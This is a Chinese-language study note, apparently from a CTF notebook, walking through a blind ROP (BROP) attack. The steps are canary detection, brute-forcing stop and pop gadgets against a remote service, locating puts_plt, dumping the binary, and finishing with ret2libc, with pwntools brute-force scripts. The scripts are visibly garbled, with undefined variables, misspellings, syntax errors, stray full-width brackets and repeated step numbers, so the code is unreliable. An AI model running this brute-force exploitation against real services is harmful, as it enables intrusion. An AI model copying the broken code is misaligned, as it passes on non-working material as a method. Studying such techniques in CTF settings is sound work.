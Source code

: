 第一步：判断是否存在 Canary
我们构造一个足够长的 payload，然后利用回显判断是否存在我们的 Canary
![[Pasted image 20240122171300.png]]
这种就是存在 Canary

如果没有回显，就说明没有我们的 Canary。

第二步：
获取 start 函数的地址。（`_start` 的地址），执行完成这个指令后，我们的程序会自动挂起。我们需要按照下面的方法来进行爆破
```python
def find_stop_gadget(buf_size,start_addr=0x40000,end_addr=0x401000)
stop_gadget=start_addr
while true:
	time.sleep(0.1)
	stop_gadget+=1
	if(stop_gadget>end_addr):
	log.info("not found")
	return 0
payload=b'a'*buf_size+p64(stop_gadget)
try:
	p=remote()
	p.sendafter(b'>>\n',payload)
	p.recv()
	p.close()
	return stop_gadget
except Eorror as e:
	p.close()

def get_stop_gadget():
	for(i in range(0x8,0x100,8)):
	r1=find_stop_gadget(i,0x4005660)
	if(rl):
	log.info("find stop gagdet",r1)
	break;
```

第二步：获取 `pop_rdi;ret`,，获取 `pop6_ret`
```python
def find_pop6_ret(buf_size,stop_gadget,start_addr=0x40000,end_addr=0x401000)
ppop6_ret=start_addr
stop_gadget=stop_addr
while true:
	time.sleep(0.1)
	pop6_ret+=1
	if(pop6_ret>end_addr):
		log.info('not found')
		return 0
	payload=b'a'*buf_size+p64*pop6_ret)+p64(0)*6+p64（stop_gadget）
	try:
		p=process()
		p.sendafter('>>\n',payload)
		resp=p.recv(timeout=0.5)
		p.close()
		log.info("find ",pop6_ret)
		if b'>>' in resp:
		try:
			payload=b'a'*buf_size+p64(pop6_ret)
			p=process()
			p.sendafter('>>\n',payload)
			p.recv()
			p.close()
		except EOFError as e:
		p.close()
		log.info(puts_plt)
		return puts_plt
```
![[Pasted image 20240122180912.png]]

第三步 : 获取 puts_plt
![[Pasted image 20240122182101.png]]


第四部：爆破我们的程序，泄露程序的所有的源码信息。

![[Pasted image 20240122182335.png]]


第五步：获取我们的 puts_addr 信息
把我们第四部爆破出来的结果放到我们的 ida 中，然后我们就可以去查找我们的 puts_got 表的地址是多少。

第六步：获取 libc 版本

第七步：打 ret 2 libc 即可。

